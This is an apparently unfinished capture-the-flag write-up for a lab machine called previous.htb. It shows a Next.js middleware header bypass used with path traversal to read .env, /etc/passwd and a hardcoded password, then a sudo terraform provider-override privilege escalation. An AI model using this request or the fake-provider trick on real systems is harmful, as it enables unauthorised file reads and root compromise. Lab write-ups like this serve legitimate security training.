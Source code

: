 ```yaml
---
os: linux
status: Active
tags:
aliases:
---
```

---

# Information Gathering

Scanned top TCP ports:

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://previous.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated open TCP ports:

```sh

```

---

# Enumeration

## Port 80 - HTTP (Apache)

found contact to:
```
jeremy@previous.htb
```


looking around
```js
{"credentials":{"id":"credentials","name":"Credentials","type":"credentials","signinUrl":"http://localhost:3000/api/auth/signin/credentials","callbackUrl":"http://localhost:3000/api/auth/callback/credentials"}}
```

After a while of searching, found CVE in nextjs that enable me to bypass security controls, just by adding specific header. Then found a end point that i can use to do LFI.
```http
GET /api/download?example=../../package.json HTTP/1.1
Host: previous.htb
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: next-auth.csrf-token=75113a9f8acf2b5bfc60729770877c7bf1b0b90eb86e422e3adc63e54af7c45d%7Cd068f58d2efcca479d14be93682dcf0b71ffb2619294f679f350dee06dec8f47; next-auth.callback-url=http%3A%2F%2Flocalhost%3A3000%2Fdocs
Connection: keep-alive
```

```
.env
pages/
public/
.next/
```

```
.env file
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

```
/etc/passwd

nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```

```js
MyNameIsJeremyAndILovePancakes

authorize: async e => e?.username === "jeremy" && e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes") ? {

id: "1",

name: "Jeremy"

} : null

})],

pages: {

signIn: "/signin"

},

9￼} : null
10￼
11￼})],
12￼
secret: process.env.NEXTAUTH_SECRET

},
```
---

# Exploitation

## SQL Injection


---

# Lateral Movement to xxx

## Local enumeration


## Lateral movement vector

---

# Privilege Escalation to xxx

## Local enumeration

```sh
jeremy@previous:~$ sudo -l
[sudo] password for jeremy: 
Matching Defaults entries for jeremy on previous:
    !env_reset, env_delete+=PATH, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir\=/opt/examples apply

```
## Privilege Escalation vector

### Terraform
it need providers so it can know how to execute and those providers are just binaries, 

---

### 1. Pick a directory you control
```
mkdir -p /home/jeremy/fake_provider
```

2. Update your `~/.terraformrc`
Change the dev override to point at your directory instead of `/usr/local/go/bin`.
```
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/home/jeremy/fake_provider"
  }
  direct {}
}

```

3. put  a provider binary in your directory
```
touch /home/jeremy/fake_provider/terraform-provider-examples
chmod +x /home/jeremy/fake_provider/terraform-provider-examples

echo '#!/bin/sh' > /home/jeremy/fake_provider/terraform-provider-examples
echo 'echo "Custom provider executed as: $(id)"' >> /home/jeremy/fake_provider/terraform-provider-examples
chmod +x /home/jeremy/fake_provider/terraform-provider-examples

sudo /usr/bin/terraform -chdir=/opt/examples apply
```

---

# Trophy

{{image}}

>[!todo] **User.txt**
>flag

>[!todo] **Root.txt**
>flag

**/etc/shadow**

```sh

```

# Resolution summary

>[!summary]
>- Step 1
>- Step 2
